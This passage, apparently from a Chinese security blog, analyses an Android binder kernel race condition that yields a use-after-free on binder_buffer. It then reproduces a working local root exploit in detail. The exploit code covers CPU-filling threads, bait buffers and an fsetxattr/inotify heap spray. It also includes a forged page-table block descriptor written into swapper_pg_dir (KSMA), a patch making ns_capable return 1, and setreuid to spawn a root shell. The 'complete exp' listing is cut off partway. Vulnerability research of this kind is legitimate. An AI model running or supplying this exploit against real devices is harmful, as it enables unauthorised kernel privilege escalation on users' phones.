	}
	return buffer;

[...]
}

```

总的来说就是先算出请求分配空间的总大小，在`proc`的`free_buffers`红黑树中查找大小合适`binder_buffer`节点，该红黑树是以`binder_buffer`**所拥有的地址空间的大小**为序组织的，如果被分配节点的地址空间在分配完本次请求的大小后还大，则先算出这个大buffer的大小，将求得的所需地址空间大小进行页对齐后，调用binder_update_page_range分配物理页框，建立内核态和用户态的地址映射。紧接着将被分配节点从free_buffers红黑树中删除，更新空闲标识为0，然后插入到已分配红黑树allocated_buffers中，该红黑树以binder_buffer的地址大小为序组织的。如果被分配节点在分配完请求的地址空间大小后还有剩余，需将剩余的地址空间用一个新的binder_buffer管理起来，并插入到proc的buffers链表及free_buffers红黑树中。最后更新分配节点的相关字段，

#### 释放内核缓冲区

主要是通过binder_alloc_free_buf来实现的

```c
void binder_alloc_free_buf(struct binder_alloc *alloc,
			    struct binder_buffer *buffer)
{
	mutex_lock(&alloc->mutex);
	binder_free_buf_locked(alloc, buffer);
	mutex_unlock(&alloc->mutex);
}

```

加锁，然后调用binder_free_buf_locked

```c
static void binder_free_buf_locked(struct binder_alloc *alloc,
				   struct binder_buffer *buffer)
{
	size_t size, buffer_size;

	buffer_size = binder_alloc_buffer_size(alloc, buffer);

	size = ALIGN(buffer->data_size, sizeof(void *)) +
		ALIGN(buffer->offsets_size, sizeof(void *)) +
		ALIGN(buffer->extra_buffers_size, sizeof(void *));//算出需要释放的总大小	

	BUG_ON(buffer->free);
	BUG_ON(size > buffer_size);
	BUG_ON(buffer->transaction != NULL);
	BUG_ON(buffer->data < alloc->buffer);
	BUG_ON(buffer->data > alloc->buffer + alloc->buffer_size);

	if (buffer->async_transaction) {
		alloc->free_async_space += size + sizeof(struct binder_buffer);

		binder_alloc_debug(BINDER_DEBUG_BUFFER_ALLOC_ASYNC,
			     "%d: binder_free_buf size %zd async free %zd\n",
			      alloc->pid, size, alloc->free_async_space);
	}

	binder_update_page_range(alloc, 0,
		(void *)PAGE_ALIGN((uintptr_t)buffer->data),
		(void *)(((uintptr_t)buffer->data + buffer_size) & PAGE_MASK));//解除映射

	rb_erase(&buffer->rb_node, &alloc->allocated_buffers);//从已分配buffer的红黑树中删除
	buffer->free = 1;//将它编辑为空闲
	if (!list_is_last(&buffer->entry, &alloc->buffers)) {//如果该buffer不是buffer链表的最后一个，也就是后面还有buffer的话
		struct binder_buffer *next = binder_buffer_next(buffer);

		if (next->free) {//后面的buffer是空闲的
			rb_erase(&next->rb_node, &alloc->free_buffers);//将它从空闲buffer的红黑树中删除，以将其合并到当前`binder_buffer`中
			binder_delete_free_buffer(alloc, next);//kfree掉后一个
		}
	}
	if (alloc->buffers.next != &buffer->entry) {
		struct binder_buffer *prev = binder_buffer_prev(buffer);//当前'binder_buffer'的前一个

		if (prev->free) {//前一个binder_buffer是空闲的
			binder_delete_free_buffer(alloc, buffer);//kfree掉它
			rb_erase(&prev->rb_node, &alloc->free_buffers);///将它从空闲buffer的红黑树中删除，以将其合并到当前`binder_buffer`中
			buffer = prev;
		}
	}
	binder_insert_free_buffer(alloc, buffer);//将前后合并好后的binder_buffer插入到空闲binder_buffer的红黑树中去
}
```

binder_free_buf的功能是释放一个binder_buffer所管理的地址空间，具体过程是：它首先释放binder_buffer的data域所占据的地址空间，解除地址内核及用户态的地址映射；接着查看其之后是否也处于空闲状态，如果是的话，合并到当前节点，并尝试释放其后binder_buffer节点所占据的物理页。接着查看前一个的节点，是否处于空闲状态，如果是的话，就将自己合并到前一个节点中，并尝试释放其本身binder_buffer节点所占据的物理页；最后将合并后的节点（如果前后节点是空闲的话）插入到proc的free_buffer红黑树中。

## 漏洞利用

漏洞出在binder_ioctl->binder_thread_write时指令为bc_reply或bc_transaction会执行binder_transaction函数中存在条件竞争



主线程中binder_transaction在binder_alloc_new_buf后有一个Narrow Time Window,可以给我们条件竞争，


子线程中在binder_ioctl->binder_thread_write指令为BC_FREE_BUFFER时绕过buffer->allow_user_free时执行binder_alloc_free_buf



想办法kfree掉主线程中刚刚分配完映射好的binder_buffer,即可造成uaf

```c
//binder_transaction
binder_transaction{
    
[...]
off_start = (binder_size_t *)(t->buffer->data +
				      ALIGN(tr->data_size, sizeof(void *)));
	offp = off_start;
        printk(KERN_INFO "20000s binder ocuppy end, target pid:%d, buffer:%p, free:%d, user_allow_free:%d, buffer data:%p, buffer user data:%lx, cupid:%d\n", target_proc->pid, t->buffer, t->buffer->free, t->buffer->allow_user_free, t->buffer->data, (uintptr_t)t->buffer->data + binder_alloc_get_user_buffer_offset(&target_proc->alloc), smp_processor_id());
	if (copy_from_user(t->buffer->data, (const void __user *)(uintptr_t)
			   tr->data.ptr.buffer, tr->data_size)) {
		binder_user_error("%d:%d got transaction with invalid data ptr\n",
				proc->pid, thread->pid);
		return_error = BR_FAILED_REPLY;
		return_error_param = -EFAULT;
		return_error_line = __LINE__;
		goto err_copy_data_failed;
	}
[***]

}
```

在之后的binder_transaction流程中函数不会对我们的数据检查，直接将我们用户态的数据(对此进行伪造)拷贝到uaf的buffer->data上去，之后我们再堆喷喷上去，使用ksma攻击即可进行提权

接下来通过讲解exp的方式来说明漏洞利用即补充细节

ps: exp使用了大量android framework层面函数，我不打算对此进行说明，仅讲解它在kernel层做了哪些事

首先是

```c
createAllocThread();
```

它具体干了以下事

```c
void createAllocThread()
{
	pthread_mutex_init(&alloc_mutex, NULL);
	pthread_cond_init (&alloc_cond, NULL);
	pthread_t id_transaction;
        pthread_create(&id_transaction,NULL, bc_transaction, NULL);
}


void* bc_transaction(void *arg)
{
	pthread_mutex_lock(&alloc_mutex);
	while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);
    	//const uint8_t * replyData = reply.data();
	return arg;
}
```

启动子线程，pthread_cond_wait使它处于等待状态,直到主线程唤醒它

接着

```c
nice(-20);
```

设主线程优先级最高

```c
MediaPlayerBase* mediaPlayerBase = new MediaPlayerBase();
	mediaPlayer = mediaPlayerBase->creatMediaPlayer();
```

相当于 open("/dev/binder");

```c
init_reply_data();
init_test_dir();
```

```c
status_t init_reply_data()
{
	setDataSource();
	AudioPlaybackRate rate;
	rate.mSpeed = 1;
	rate.mPitch = 1;
	rate.mStretchMode = (AudioTimestretchStretchMode)0;
	rate.mFallbackMode = (AudioTimestretchFallbackMode)0x80000e71;
        return mediaPlayer->setPlaybackSettings(rate);

}

sp<IMediaPlayerService> getMediaPlayer()
{
	sp<IServiceManager> sm = defaultServiceManager();
	String16 name = String16("media.player"); 
	sp<IBinder> service = sm->checkService(name);
	sp<IMediaPlayerService> mediaService = interface_cast<IMediaPlayerService>(service);

	return mediaService;

}

```

初始化bc_reply要传的数据就是1，1，0，0x80000e71，在bc_reply时调用bc_transaction,对于uaf的binder_buffer->data copy_from_user,关于为什么传这个些数据，涉及到kasm攻击方法，等会再讲

```c
void init_fd_heap_spray()
{
	const char * path = "/data/local/tmp/test_dir/abcd.txt";
        fd_heap_spray = open(path, O_WRONLY);
	if (fd_heap_spray < 0)
	{
		printf("[-] fd_heap_spray failed\n");
	}
}

void create_test_dir()
{
    	system("touch /data/local/tmp/test_dir/fffdfffdfffdfffd");
	system("touch /data/local/tmp/test_dir/abcd.txt");
	fd_guard_heap = open("/data/local/tmp/test_dir/fffdfffdfffdfffd", O_WRONLY); 
	if (fd_guard_heap < 0)
	{
		printf("[-] fd_guard_heap failed\n");
	}
	init_fd_heap_spray();
}

void init_test_dir()
{
	memset(guardBuffer, 0 ,1000);
	system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
	create_test_dir();
	begin_watch();
}
```

这里创建一个test_dir，里面存放fffdfffdfffdfffd,abcd.txt两个文件，至于为什么叫这两个名字，是与堆喷占位有关，稍后再说明

```c
put_baits();
```

接着是放置诱饵，需要提前分配binder_buffer，也就是分配后才能释放；

```c
void put_baits()
{
	//Avoid the reply data to be released by "~Parcel()"
	for (int i = 0; i < BAIT; i++)
	{
		dataArray[i].writeInterfaceToken(String16("android.media.IMediaPlayer"));
		IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataArray[i], &replyArray[i], 0);
		gDataArray[i] = replyArray[i].data();
		/*for (int j = 0; j < (int)replyArray[i].dataSize(); j++)
		{
			printf("[+] gDataArray[%d][%d], data:%x\n", i, j, gDataArray[i][j]);
		}*/
		//printf("index:%d, user_addr:%p\n", i, gDataArray[i]);
	}
}

```

它在这里做的是BC_transaction,Br_transaction,Bc_reply,Br_reply指令这个顺序所做的事，也就是正常binder ipc过程，如图



首先binder_ioctl->binder_thread_write->case BC_Transaction->bc_transaction->binder_alloc_new_buf ,由于我们没有设置bc_transaction要传递的数据，不会alloc,br_transaction没做什么，关键是bc_reply，由于我们设置了数据，所以会alloc binder_buffer来管理我们的数据，br_reply将这个binder_buffer->alloc_user_free标为1，这个诱饵所作的事就是等会释放掉他，放入alloc_>free_buffer的红黑树中，等到条件竞争时binder_alloc_new_buf，直接拿出这个binder_buffer,而不是进入binder_size !=size malloc了binder_buffer影响我们的堆喷

```c
fillOtherCpu();
```

```c
void fillOtherCpu()
{
	int cores = getCores();
	printf("[+] cpu count:%d\n", cores);
	pthread_t id_cpu1, id1_cpu1, id2_cpu1, id3_cpu1, id4_cpu1, id5_cpu1, id6_cpu1, id7_cpu1;
	pthread_t id_cpu2, id1_cpu2, id2_cpu2, id3_cpu2, id4_cpu2, id5_cpu2, id6_cpu2, id7_cpu2;
	pthread_t id_cpu3, id1_cpu3, id2_cpu3, id3_cpu3, id4_cpu3, id5_cpu3, id6_cpu3, id7_cpu3;
	int cpu1 = 0;
	int cpu2 = 2;
	int cpu3 = 3;
	pthread_create(&id_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id1_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id2_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id3_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id4_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id5_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id6_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id7_cpu1, NULL, fillCpu, &cpu1);

	pthread_create(&id_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id1_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id2_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id3_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id4_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id5_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id6_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id7_cpu2, NULL, fillCpu, &cpu2);

	pthread_create(&id_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id1_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id2_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id3_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id4_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id5_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id6_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id7_cpu3, NULL, fillCpu, &cpu3);
	sleep(10);
}
void* fillCpu(void *arg)
{
        int index = *(int *)arg;
	cpu_set_t mask;
    	CPU_ZERO(&mask);
    	CPU_SET(index, &mask);
	pid_t pid = gettid();
	syscall(__NR_sched_setaffinity, pid, sizeof(mask), &mask);
	//printf("[+] cpu:%d, tid:%d, freeze\n", index, pid);
	while (!fillFlag)
	{
		index++;
	}

        return arg;
}
```

它所作的事就是将其他cpu占满，让后面的主线程和子线程在一个cpu上运行，提高条件竞争的概率

接着

```c
raceTimes();
```

这个函数是漏洞实现的关键，它所作了条件竞争，堆喷占位两件事

```c
void bc_free_buffer(int replyParcelIndex)
{
	replyArray[replyParcelIndex].~Parcel();
	IPCThreadState::self()->flushCommands();
}
void raceWin(int replyParcelIndex)
{
	pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
	pthread_cond_signal(&alloc_cond);
	pthread_mutex_unlock(&alloc_mutex);
	usleep(450);
	bc_free_buffer(replyParcelIndex);
	bc_free_buffer(replyParcelIndex - 1);
	heap_spray_times();
	restartWatch();
} 
void raceTimes()
{
	for(int i = BAIT - 1; i > 0; i--)
	{
		raceWin(i);
	}
}

```

我们先看

```c
pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
```

它所作的就是对于我们的诱饵binder_buffer执行bc_free_buffer所对应的逻辑

```c
case BC_FREE_BUFFER: {
			binder_uintptr_t data_ptr;
			struct binder_buffer *buffer;

			if (get_user(data_ptr, (binder_uintptr_t __user *)ptr))
				return -EFAULT;
			ptr += sizeof(binder_uintptr_t);

			buffer = binder_alloc_prepare_to_free(&proc->alloc,
							      data_ptr);
			if (buffer == NULL) {
				binder_user_error("%d:%d BC_FREE_BUFFER u%016llx no match\n",
					proc->pid, thread->pid, (u64)data_ptr);
				break;
			}
			if (!buffer->allow_user_free) {
				binder_user_error("%d:%d BC_FREE_BUFFER u%016llx matched unreturned buffer\n",
					proc->pid, thread->pid, (u64)data_ptr);
				break;
			}
			[...]
			trace_binder_transaction_buffer_release(buffer);
			binder_transaction_buffer_release(proc, buffer, NULL);
			binder_alloc_free_buf(&proc->alloc, buffer);
			break;
```

通过了allow_user_free检查，执行了binder_alloc_free_buf，此时它前后的binder_buffer free都为0，所以binder_alloc_free_buf所作的是将诱饵binder_buffer解除映射，free标位1，放入alloc空闲binder_buffer红黑树中去，注意此时这个binder_buffer的allow_user_free是1，没发生改变，如我在诱饵时所说的

```c
global_parcel_index = replyParcelIndex;
pthread_cond_signal(&alloc_cond);
pthread_mutex_unlock(&alloc_mutex);
usleep(450);
bc_free_buffer(replyParcelIndex);
bc_free_buffer(replyParcelIndex - 1);
```

这里就是条件竞争部分，pthread_cond_signal唤醒子线程 usleep(450)这个因为线程2通过binder进程间通信，让mediaserver执行到BC_REPLY需要一段时间，先是子线程

```c
while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);
```

就是bc_transaction,br_transaction，bc_reply,bc_transaction,br_transaction没干什么，主要是bc_reply,binder_ioctl->binder_thread_write->case BC_reply->bc_transaction->binder_alloc_new_buf中找适合大小的binder_buffer,也就是我们的诱饵binder_buffer,而诱饵的binder_buffer->allow_user_free==1 ,接着进入narrow window,此时主线程在干什么

```c
bc_free_buffer(replyParcelIndex);
bc_free_buffer(replyParcelIndex - 1);
```

为什么要binder_alloc_free_buf两次呢，正如我前面前置知识经过，第一次bc_free_buffer会可能kfree 我们诱饵binder_buffer后面的一个无关binder_buffer,而对于它前面的replyParcelIndex - 1 binder_buffer 它的free为0，不会kfree合并，(binder_buffer在虚拟和物理地址上是连续的) ，因而第一次bc_free_buffer解除我们诱饵binder_buffer的映射，binder_buffer->free = 1,将诱饵binder_buffer的下一个无关binder_buffer free掉(可能)，而第二次bc_free_buffer 由于已经将我们的诱饵binder_buffer->free标为1，因而kfree掉我们的诱饵binder_buffer,造成uaf,总的来说，第一次bc_free_buffer将我们的诱饵binder_buffer->free = 1,第2次kfree掉它

，子线程还在narrow window，接下来主线程执行堆喷部分

```c
#define BUFF_SIZE 96
void heapGuard()
{
	fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}
void heap_spray()
{
	char buff[BUFF_SIZE];
	memset(buff, 0 ,BUFF_SIZE);
	*(size_t *)((char *)buff + 64) = 20;
	*(size_t *)((char *)buff + 88) = 0xffffffc001e50834;
	fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);
}

void heap_spray_times()
{
	for (int i = 0; i < HEAP_SPRAY_TIME; i++)
	{
		heap_spray();
		heapGuard();
	}
}
heap_spray_times();
```

我们先来看heap_spray(),buff为什么赋这个值，到ksma利用时再说,为什么buff为96，因为binder_buffer大小为96，为的是待会喷上去，关键是fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);我们来看看fsetxattr源码

```c
static long
setxattr(struct dentry *d, const char __user *name, const void __user *value,
     size_t size, int flags)
{
    int error;
    void *kvalue = NULL;
    void *vvalue = NULL; /* If non-NULL, we used vmalloc() */
    char kname[XATTR_NAME_MAX + 1];
 
    if (flags & ~(XATTR_CREATE|XATTR_REPLACE))
        return -EINVAL;
 
    error = strncpy_from_user(kname, name, sizeof(kname));
    if (error == 0 || error == sizeof(kname))
        error = -ERANGE;
    if (error < 0)
        return error;
 
    if (size) {
        if (size > XATTR_SIZE_MAX)
            return -E2BIG;
        kvalue = kmalloc(size, GFP_KERNEL | __GFP_NOWARN);//申请内存
        if (!kvalue) {
            vvalue = vmalloc(size);
            if (!vvalue)
                return -ENOMEM;
            kvalue = vvalue;
        }
        if (copy_from_user(kvalue, value, size)) {
            error = -EFAULT;
            goto out;
        }
        if ((strcmp(kname, XATTR_NAME_POSIX_ACL_ACCESS) == 0) ||
            (strcmp(kname, XATTR_NAME_POSIX_ACL_DEFAULT) == 0))
            posix_acl_fix_xattr_from_user(kvalue, size);
    }
 
    error = vfs_setxattr(d, kname, kvalue, size, flags);
out:
    if (vvalue)
        vfree(vvalue);
    else
        kfree(kvalue);//释放内存
    return error;
}
```

可以看到kmalloc(size),也就是堆喷喷上去了，copy_from_user将我们的buffer覆盖了uaf的binder_buffer,因此我们使用fsetxattr占用uaf的binder_buffer的data_size和data。覆盖了以后最后还是kfree了，fsetxattr由于改变了文件的扩展属性，会触发文件监控，调用到inotify_handle_event

```c
int inotify_handle_event(struct fsnotify_group *group,
			 struct inode *inode,
			 struct fsnotify_mark *inode_mark,
			 struct fsnotify_mark *vfsmount_mark,
			 u32 mask, void *data, int data_type,
			 const unsigned char *file_name, u32 cookie)
{
	struct inotify_inode_mark *i_mark;
	struct inotify_event_info *event;
	struct fsnotify_event *fsn_event;
	int ret;
	int len = 0;
	int alloc_len = sizeof(struct inotify_event_info);

	[...]
	if (file_name) {
		len = strlen(file_name);
		alloc_len += len + 1;
	}

	pr_debug("%s: group=%p inode=%p mask=%x\n", __func__, group, inode,
		 mask);

	i_mark = container_of(inode_mark, struct inotify_inode_mark,
			      fsn_mark);

	event = kmalloc(alloc_len, GFP_KERNEL);
    event->wd = i_mark->wd;
	event->sync_cookie = cookie;
	event->name_len = len;
	[...]

	return 0;
}
```

在inotify_handle_event中会kmalloc(sizeof(struct inotify_event_info) +file_name ), sizeof(struct inotify_event_info)为48，文件名为abcd.txt ,占56个字节，那么不会占到我们的uaf binder_buffer,之后

fsetxattr size为1000，更喷不到我们的uaf binder_buffer,之后在inotify_handle_event，文件名为fffdfffdfffdfffd，要kalloc 65字节，喷射到我们的uaf binder_buffer上，从而保护它防止被破坏，但是

```c
 event->wd = i_mark->wd;
	event->sync_cookie = cookie;
	event->name_len = len;
```

改变了几个值，event->name_len = len;是关键





注意async_transaction为0，所以名字要大于4,之后子线程继续binder_transaction 此时binder_buffer->data已经被我们覆盖成 0xffffffc001e50834 data_size为20

```c
//binder_transaction
if (copy_from_user(t->buffer->data, (const void __user *)(uintptr_t)
			   tr->data.ptr.buffer, tr->data_size)) {
		binder_user_error("%d:%d got transaction with invalid data ptr\n",
				proc->pid, thread->pid);
		return_error = BR_FAILED_REPLY;
		return_error_param = -EFAULT;
		return_error_line = __LINE__;
		goto err_copy_data_failed;
	}
	if (copy_from_user(offp, (const void 
```

所以在0xffffffc001e50834的位置上写上1，1，0，0x80000e71，于是raceTimes正式结束

现在说一下ksma部分，就是0xffffffc001e50834的位置上写上1，1，0，0x80000e71是什么意思

0x80000e71是这么来的 这是伪造 的d_block 描述符

```c
unsigned long get_fack_block(unsigned long phys_addr)//0x800000 内核镜像加载的起始物理地址 memstart_addr
{
	unsigned long fake_d_block = 0l	;
	// d_block 中的内容，主要是修改 AP[2:1], 修改为读写属性
    	// bit[1:0]
    	fake_d_block = fake_d_block | (0x0000000000000001);     //                  Y
    	// bit[11:2] lower block attributes
    	fake_d_block = fake_d_block | (0x0000000000000800);     // nG, bit[11]      Y
    	fake_d_block = fake_d_block | (0x0000000000000400);     // AF, bit[10]      Y
    	fake_d_block = fake_d_block | (0x0000000000000200);     // SH, bits[9:8]
    	fake_d_block = fake_d_block | (0x0000000000000040);     // AP[2:1], bits[7:6]
    	fake_d_block = fake_d_block | (0x0000000000000020);     // NS, bit[5]       Y
   	fake_d_block = fake_d_block | (0x0000000000000010);     // AttrIndx[2:0], bits[4:2]
    	// bit[29:12] RES0
    	// bit[47:30] output address
    	fake_d_block = fake_d_block | (phys_addr & 0x0000ffffc0000000);
    	// bit[51:48] RES0
    	// bit[63:52] upper block attributes, [63:55] ignored
    	//fake_d_block = fake_d_block | (0x0010000000000000);     // Contiguous, bit[52]
    	//fake_d_block = fake_d_block | (0x0020000000000000);     // PXN, bit[53]
    	//fake_d_block = fake_d_block | (0x0040000000000000);     // XN, bit[54]
	return fake_d_block;
}
```

伪造 d_block 描述符 将它改成可读可写，接下来只要在某虚拟地址的一节页表描述符的地方写上我们伪造的就行了，即可将该页改成可读可写，具体这么计算 swapper_pg_dir为一级页表的地址 0xffffffc001e50000

```c
L1_index = (vaddr & 0x0000007fc0000000) >> 30;
fake_d_block_addr = swapper_pg_dir + L1_index * 0x8;
```

算出ns_capable所在页的d_block描述府地址  0xffffffc2000b1024为ns_capable的内核地址 

```c
 L1_index = (0xffffffc2000b1024 & 0x0000007fc0000000) >> 30
>>> hex(8*L1_index)
'0x840L
```

因而0xffffffc001e50840写上0x80000e71，将ns_caple函数所在页的权限改为可读可写

```c
 void kernel_patch_ns_capable(unsigned long * addr) {
        unsigned int *p = (unsigned int *)addr;

        p[0] = 0xD2800020;//MOV x0,#1
        p[1] = 0xD65F03C0;//RET
}
unsigned long ns_capable_addr  = 0xffffffc0000b1024 - 0xffffffc000000000 + 0xffffffc200000000;
kernel_patch_ns_capable((unsigned long *) ns_capable_addr);
	if(setreuid(0, 0) || setregid(0, 0)){
       		printf("[-] setgid failed\n");
		return -1;
        }
	if (getuid() == 0)
        {
                printf("[+] spawn a root shell\n");
                execl("/system/bin/sh", "/system/bin/sh", NULL);
        }
```

之后将ns_caple patch掉 即可提权

完整exp:

```c
#include <stdio.h>
#include <pthread.h>
#include "pwn.h"
#include "cpu.h"
#include <sys/xattr.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/eventfd.h>
#include <sys/inotify.h>
#include <poll.h>

sp<IMediaPlayerService> getMediaPlayer();
sp<IMediaPlayer> mediaPlayer;
#define BAIT 1000
#define BUFF_SIZE 96
Parcel dataBCArray[BAIT];
Parcel replyBCArray[BAIT];

#define HEAP_SPRAY_TIME 30
int fd_heap_spray;

const uint8_t *gDataArray[BAIT];
Parcel dataArray[BAIT], replyArray[BAIT];

int fillFlag = 0;
pthread_mutex_t alloc_mutex;
pthread_cond_t alloc_cond;
int global_parcel_index = 0; 

volatile int stop = 0;
char guardBuffer[1000];
int fd_guard_heap;

int watch_fd;
int watch_wd;

class MediaPlayerBase : public MediaPlayer
{
	public:
		MediaPlayerBase() {};
		~MediaPlayerBase() {};
		sp<IMediaPlayer>	creatMediaPlayer() 
		{
			sp<IMediaPlayerService> service(getMediaPlayer());
		        sp<IMediaPlayer> player(service->create(this, getAudioSessionId()));
			return player;
		}
};

sp<IMediaPlayerService> getMediaPlayer()
{
	sp<IServiceManager> sm = defaultServiceManager();
	String16 name = String16("media.player"); 
	sp<IBinder> service = sm->checkService(name);
	sp<IMediaPlayerService> mediaService = interface_cast<IMediaPlayerService>(service);

	return mediaService;

}

void begin_watch()
{
        watch_fd = inotify_init1(IN_NONBLOCK);
        if (watch_fd == -1) {
                printf("[-] inotify_init1 failed\n");
                return;
        }

        watch_wd = inotify_add_watch(watch_fd, "test_dir",
                                 IN_ALL_EVENTS);
        if (watch_wd == -1) {
                printf("[-] Cannot watch\n");
                return;
        }
}

void stop_watch()
{
	inotify_rm_watch(watch_fd, watch_wd);
	if (watch_fd != 1)
	{
		close(watch_fd);
	}
}

void heapGuard()
{
	fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}

void kernel_patch_ns_capable(unsigned long * addr) {
        unsigned int *p = (unsigned int *)addr;

        p[0] = 0xD2800020;//MOV x0,#1
        p[1] = 0xD65F03C0;//RET
}

unsigned long get_fack_block(unsigned long phys_addr)
{
	unsigned long fake_d_block = 0l	;
	// d_block 中的内容，主要是修改 AP[2:1], 修改为读写属性
    	// bit[1:0]
    	fake_d_block = fake_d_block | (0x0000000000000001);     //                  Y
    	// bit[11:2] lower block attributes
    	fake_d_block = fake_d_block | (0x0000000000000800);     // nG, bit[11]      Y
    	fake_d_block = fake_d_block | (0x0000000000000400);     // AF, bit[10]      Y
    	fake_d_block = fake_d_block | (0x0000000000000200);     // SH, bits[9:8]
    	fake_d_block = fake_d_block | (0x0000000000000040);     // AP[2:1], bits[7:6]
    	fake_d_block = fake_d_block | (0x0000000000000020);     // NS, bit[5]       Y
   	fake_d_block = fake_d_block | (0x0000000000000010);     // AttrIndx[2:0], bits[4:2]
    	// bit[29:12] RES0
    	// bit[47:30] output address
    	fake_d_block = fake_d_block | (phys_addr & 0x0000ffffc0000000);
    	// bit[51:48] RES0
    	// bit[63:52] upper block attributes, [63:55] ignored
    	//fake_d_block = fake_d_block | (0x0010000000000000);     // Contiguous, bit[52]
    	//fake_d_block = fake_d_block | (0x0020000000000000);     // PXN, bit[53]
    	//fake_d_block = fake_d_block | (0x0040000000000000);     // XN, bit[54]
	return fake_d_block;
}

int maximize_fd_limit(void){
    struct  rlimit rlim;
    int ret;

    ret = getrlimit(RLIMIT_NOFILE,&rlim);
    if(ret != 0){
        return -1;
    }

    rlim.rlim_cur = rlim.rlim_max;
    setrlimit(RLIMIT_NOFILE,&rlim);

    ret = getrlimit(RLIMIT_NOFILE,&rlim);
    if(ret != 0){
        return -1;
    }
    return rlim.rlim_cur;
}

status_t setDataSource()
{
	const char * path = "/data/local/tmp/3685c32c15c5dad78aaa19ca697d4ae5.mp4";
	int fd = open(path, O_RDONLY | O_LARGEFILE);
	if (fd < 0)
	{
		printf("[-] open map4 failed\n");
		return -1;
	}
	return mediaPlayer->setDataSource(fd, 0, 0x7ffffffffffffffL);
}

int getCores() {
    	return sysconf(_SC_NPROCESSORS_CONF);
}

void* fillCpu(void *arg)
{
        int index = *(int *)arg;
	cpu_set_t mask;
    	CPU_ZERO(&mask);
    	CPU_SET(index, &mask);
	pid_t pid = gettid();
	syscall(__NR_sched_setaffinity, pid, sizeof(mask), &mask);
	//printf("[+] cpu:%d, tid:%d, freeze\n", index, pid);
	while (!fillFlag)
	{
		index++;
	}

        return arg;
}

void fillOtherCpu()
{
	int cores = getCores();
	printf("[+] cpu count:%d\n", cores);
	pthread_t id_cpu1, id1_cpu1, id2_cpu1, id3_cpu1, id4_cpu1, id5_cpu1, id6_cpu1, id7_cpu1;
	pthread_t id_cpu2, id1_cpu2, id2_cpu2, id3_cpu2, id4_cpu2, id5_cpu2, id6_cpu2, id7_cpu2;
	pthread_t id_cpu3, id1_cpu3, id2_cpu3, id3_cpu3, id4_cpu3, id5_cpu3, id6_cpu3, id7_cpu3;
	int cpu1 = 0;
	int cpu2 = 2;
	int cpu3 = 3;
	pthread_create(&id_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id1_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id2_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id3_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id4_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id5_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id6_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id7_cpu1, NULL, fillCpu, &cpu1);

	pthread_create(&id_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id1_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id2_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id3_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id4_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id5_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id6_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id7_cpu2, NULL, fillCpu, &cpu2);

	pthread_create(&id_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id1_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id2_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id3_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id4_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id5_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id6_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id7_cpu3, NULL, fillCpu, &cpu3);
	sleep(10);
}

void heap_spray()
{
	char buff[BUFF_SIZE];
	memset(buff, 0 ,BUFF_SIZE);
	*(size_t *)((char *)buff + 64) = 20;
	*(size_t *)((char *)buff + 88) = 0xffffffc001e50834;
	fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);
}

